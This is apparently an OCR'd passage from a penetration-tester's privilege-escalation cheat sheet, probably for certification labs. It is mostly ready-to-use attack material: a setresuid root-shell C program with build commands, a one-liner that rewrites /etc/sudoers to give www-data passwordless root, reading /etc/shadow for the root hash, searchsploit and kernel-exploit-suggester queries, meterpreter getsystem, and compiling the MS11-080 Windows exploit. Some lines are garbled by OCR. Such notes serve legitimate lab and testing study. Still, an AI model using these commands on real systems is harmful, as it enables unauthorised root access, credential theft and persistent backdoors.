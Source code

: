         SUID C Shell for /bin/sh  
          
        int main(void){  
        setresuid(0, 0, 0);  
        system("/bin/sh");  
        }  
          
        Building the SUID Shell binary  
        gcc -o suid suid.c  
        For 32 bit:  
        gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file
        transfer)  
        echo "int main(void){\\nsetgid(0);
        setuid(0);\\nsystem(\\"/bin/sh\\");\\n}" &gt;privsc.c  
        gcc privsc.c -o privsc

-   Add users to Root SUDO group with no password requirement  
    echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:
    ALL" &gt;&gt; /etc/sudoers && chmod 440 /etc/sudoers' &gt;
    /tmp/update
    
 -   SearchSploit  
     searchsploit –uncsearchsploit apache 2.2  
     searchsploit "Linux Kernel"  
     searchsploit linux 2.6 | grep -i ubuntu | grep local  
     searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
     ./usr/share/linux-exploit-suggester/Linux\_Exploit\_Suggester.pl -k 3.0.0

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    

-   Collect root password  
    cat /etc/shadow |grep root
    
-   Find and display the proof.txt or flag.txt - LOOT!
    `cat ``find / -name proof.txt -print```

-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html

-   Try the getsystem command using meterpreter - rarely works but is worth a try.
    `meterpreter > getsystem`

-   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
    python pyinstaller.py --onefile ms11-080.py  
    mx11-080.exe -O XP
    